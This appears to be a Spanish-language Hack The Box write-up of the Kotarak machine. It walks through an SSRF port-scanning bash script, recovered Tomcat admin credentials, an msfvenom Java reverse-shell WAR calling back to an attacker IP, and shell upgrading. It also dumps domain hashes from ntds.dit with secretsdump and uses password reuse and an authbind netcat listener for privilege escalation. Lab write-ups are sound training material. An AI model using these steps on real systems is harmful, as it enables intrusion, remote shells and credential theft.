 # Kotarak-HTB

## Nmap

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/6e56c404-d431-4ed5-84b1-40bc05965f91)

## Tomcat

Se encontro un servidor tomcat el panel de administracion usualmente esta en:

> manager/html

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/eee4bc02-9e30-4689-9976-99e543ab922a)

## SSRF

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/cf9f356c-a756-452a-a4de-cbf2dbb99653)

Entonces esto nos permite enumerar puertos con un script

```
#!/bin/bash

for i in $(seq 0  65535); do

#sleep 1
#echo $i

data=$(curl -s  "http://10.129.1.117:60000/url.php?path=localhost:${i}"&)
#echo "El puerto que estamos revisando es: $i"
#curl -s  "http://10.129.1.117:60000/url.php?path=localhost:${i}"

if [ ! -z "$data" ]; then

     echo "El puerto que respondio es el $i-----------"
     echo $data

fi

data=''
wait;
done

echo "Finalizado..."
```

Se encontraron varios puertos abiertos lo mas destacado

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/03665140-1b85-4a53-a508-ba59dfe71d8e)

Vemos que tienenel backup 

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/c5f4b0cb-639d-4f2b-aa59-8e082da841af)

> "admin" password="3@g01PdhB!"

## RCE

### msfvenom

Vamos a crear una payload:

```
msfvenom -l payload | grep java

###
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.80 LPORT=443 -f war -o rev.war

```

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/97b2a1f5-ea8f-4ade-b338-550c33b9521b)


![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/bf99ba3b-941a-4fe0-b4d3-10ff0705b78a)


## Full TTY

Una vez que tenemos acceso nos damos cuenta que falla querer una full tty entonces vamos a usar la de python

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
Pero aun no podemos hacer CTR+C ni nada entonces

```
stty -echo raw;fg
```

## RCE

Encontramos los archivos que estan en esa carpeta

```
![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/c6304ea6-3c92-44d4-92a7-a46432b776d0)

```

Ahi encontramos algo que parece ser de AD la ntds.dit que tiene todos los hashes de los usuarios en el dominio

### Impacket

Para  obtener los hashes dentro de la ntds.dit usaremos secretsdump

```
impacket-secretsdump -ntds ntds.dit -system system.bin LOCAL
```

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/aae3fcae-7c56-4ae3-8bc5-fe2fd3ca1ae6)

Siempre que se pueda intenta re utilizar contraseñas ademas de usar paginas para crackear los passwords

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/ec5ca6c7-8450-4637-9b6a-6a40b9381927)

## Privilege escalation 

Ya tenemos un password y ademas vimos que estaba un usuario atanas intenta reulitizar la contraseña

>f16tomcat!
> Password123!

Y aqui no se puede conectar mediante SSH se tiene que conectar mediate cambio de usuario

```
su atanas

# f16tomcat!


```

Enumerando un poco nos damos cuenta que existe un wget que hace una peticion con una version vulnerable.Ojo no podemos poner a la escucha un puerto para ver que onda con el wget pero tenemos una herramienta que se llama authbind.

> /etc/authbind/byport/

Checa los puertos dentro de esa carpeta que se pueden poner a la escucha sin necesidad de ser root para abrir sockets.ls 

```
authbind nc -lvnp 80
```

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/31988c78-9408-466f-8c7b-00a8d0d1653b)

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/28e7138c-6450-44d8-97c4-dd59f797db64)

Buscando esa version en especifico es vulnerable

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/5825c70a-24c8-4a03-8e43-c59e3846caa0)

Utilizamos el exploit que vienen ahi es un exploit que se aprovebha e la re direccion ya no tiene caso escribir aqui  mas ve el write up

![image](https://github.com/gecr07/Kotarak-HTB/assets/63270579/5f3853a0-f21f-4596-a96c-f1233514578f)

## DD ejemplo

Aqui en este write esta un ejemplo excelente de como usar dd y mover un file system para despues ver la flag dentro de ese contenedor

> https://0xdf.gitlab.io/2021/05/19/htb-kotarak.html












































